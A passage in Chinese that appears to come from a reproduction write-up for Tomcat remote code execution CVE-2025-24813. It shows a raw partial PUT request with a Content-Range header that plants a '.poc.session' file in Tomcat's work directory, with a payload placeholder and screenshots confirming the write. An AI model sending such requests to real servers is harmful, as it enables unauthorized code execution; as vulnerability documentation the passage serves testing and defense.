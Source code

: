 发送带有 Content-Range 头的部分 PUT 请求，在临时目录 `$CATALINA_BASE/work/Catalina/localhost/ROOT` 中写入名为 `.poc.session` 的文件：

```
PUT /poc/session HTTP/1.1
Host: your-ip:8080
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: application/data
Content-Length: 1000
Content-Range: bytes 0-1000/1200

YOUR-PAYLOAD-HERE
```

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317141540103.png)

可以看到，文件 `.poc.session` 已经被写入：

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317141613972.png)
